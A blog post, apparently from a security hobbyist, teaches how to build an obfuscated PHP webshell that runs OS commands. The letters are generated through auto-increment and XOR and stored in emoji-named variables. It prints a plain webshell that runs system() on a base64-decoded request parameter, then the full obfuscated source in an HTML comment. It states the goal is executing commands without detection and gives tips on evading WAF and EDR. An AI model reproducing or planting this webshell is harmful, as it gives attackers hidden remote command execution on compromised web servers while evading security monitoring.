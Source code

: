 +++
title = 'Emoji Webshell 🐚'
description = "Create obfuscated webshell using emoji in php."
date = 2022-09-22T15:33:41+08:00
draft = false
tags = [ "php", "development" ]
weight = 3
# categories = [ "development" ]
# author =  ["Me"]
# [cover]
# image = "img/1.png"
+++

## Introduction

Last time I tried to push myself on learning how to construct a webshell without using any alphabet in PHP. There are a lot of techniques that can be used such as base operation, auto increment, XOR and etc. This [blog](https://websec-readthedocs-io.translate.goog/zh/latest/language/php/webshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=zh-CN) have decent techniques that can be used for obfuscation.
{{< figure src="/img/posts/emoji_webshell/1.png" >}}


## Objective of obfuscated webshell

The objective of obfuscation webshell is simple, execute os command without detection. Im assuming the server's configuration is not disabling php functions like `system()`, `passthru()`, `shell_exec()` and other functions that can execute OS command. If the server disabling those function, there will be another topic to bypass the protection. In this blog, we are going to use base64 as encoding, well, it is not recommended in the real world because WAF and EDR pretty good handling base64, so consider to use other method to encode/encrypt when the payload. Anyway, below is my simple webshell:

```php
<?php

$a = $_REQUEST_[4] ? base64_decode($_REQUEST[4]) : 'whoami'; // [1]
@system($a); // [2]
```
- `[1]`: try to check if `$_REQUEST[4]` is empty or not, if not empty, decode it using base64 and store it in `$a` variable. Otherwise, it'll store `whoami` instead.
- `[2]`: Execute command from variable `$a`.

The idea is simple. The crucial part is how to generate alphabet without using alphabet at all. One of my idea is by using XOR and auto increment operation to generate alphabet and numbers, and set it to emoji as variable. Below are how I use auto increment to generate alphabets.

<!-- ```php
<?php

$_=[];                      // $_ = [];
$_=@"$_";                   // $_ = "Array";
$__=("_"=="_")+("_"=="_");  // $__ = 1 + 1;
$_=@$_[++$__];              // $_ = $_[3] // "Array"[3]
``` -->
{{< figure src="/img/posts/emoji_webshell/2.png" caption="Figure 1: Variable iteration" width="55%" align="center" >}}

Based on Figure 1:
- line 3: Set `$_` variable to an array.
- line 4: Convert array to "Array" in string datatype.
- line 5: `("_" == "_")` is comparing two string, if true it will return 1. `("_" == "_") + ("_" == "_")`, then `(1) + (1)` and becomes 2.
- line 6: `@$_[++$__]` means `@$_[3]`, so it will takes 4th argument from "Array" which is "a".
- line 8-33: Set emoji to 'a' until 'z'. When we increment variable that contains "a", it will become "b" and so on.

After constructing alphabet, then we can use the certain function like `base64_decode()`, `$_POST[]` and `system()`. Noted that we cannot use [`eval()`](https://www.php.net/manual/en/function.eval.php) as variable since it is a constructor, not a [variable function](https://www.php.net/manual/en/functions.variable-functions.php).

{{< figure src="/img/posts/emoji_webshell/3.png" caption="Figure 2: Contruct emoji operation" width="100%" align="center" >}}

Based on Figure 2:
- line 35-37: increment the number.
- line 38: set variable `$👿` to "base6".
- line 39-40: decrement the number.
- line 41: construct the word "base64_decode". If you notice, we are using XOR operation to this line to contruct an ascii underscore "_" by xoring hastag with pipe(I would say) `"#" ^ "|"`
- line 43: set variable `$💀` to "system".
- line 44: set variable `$🥳` as "_POST" by using XOR operation to create underscore and capital letter since we do not create capital letter at all.
- line 45: check if `$_POST[4]` is set, if set, it will decode the parameter, otherwise set it to "whoami" to variable `$🤯`.
- line 46: execute `system()` with given command.

### Full source code

You can get the full source code at my [github](https://github.com/nightfury99/php-emoji-webshell/blob/main/webshell.php).

{{< figure src="/img/posts/emoji_webshell/4.png" caption="Figure 3: Full source code" width="100%" align="center" >}}

<!-- ```php
<?php

$_=[];                      // $_ = [];
$_=@"$_";                   // $_ = "Array";
$__=("_"=="_")+("_"=="_");  // $__ = 1 + 1;
$_=@$_[++$__];              // $_ = $_[3] // "Array"[3]

$🌏=$_++; // a
$🤮=$_++; // b
$🍪=$_++; // c
$🫣=$_++; // d
$🧁=$_++; // e
$🎂=$_++; // f
$🥃=$_++; // g
$🍔=$_++; // h
$🌘=$_++; // i
$🌗=$_++; // j
$🌖=$_++; // k
$🌕=$_++; // l
$🌒=$_++; // m
$🌓=$_++; // n
$🌔=$_++; // o
$🌰=$_++; // p
$🍘=$_++; // q
$🥗=$_++; // r
$🥥=$_++; // s
$🍑=$_++; // t
$🍋=$_++; // u
$🧇=$_++; // v
$🌮=$_++; // w
$🍕=$_++; // x
$🥯=$_++; // y
$🍣=$_;   // z

$__++; // 4
$__++; // 5
$__++; // 6
$👿=$🤮.$🌏.$🥥.$🧁.$__; // base6
$__--; // 5
$__--; // 4
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁; // base64_decode

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒; // system
$🥳=("#"^"|").($🍘^"#").($🎂^"#").($🥗^"#").($🧇^"#").($🎂^"#").($🌰^"#").($🌮^"#"); // _REQUEST
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘; // $_REQUEST[4] ? base64_decode($_REQUEST[4]) : "whoami"
@$💀($🤯); // @system("command")
``` -->

## Summary

Now, we already learnt how to use XOR and auto increment operation to generate alphabet and numbers. These methods allow us to construct webshell using emoji. I never use this in real world scenario, but if you have your own version and want share, do let me know. 🌵
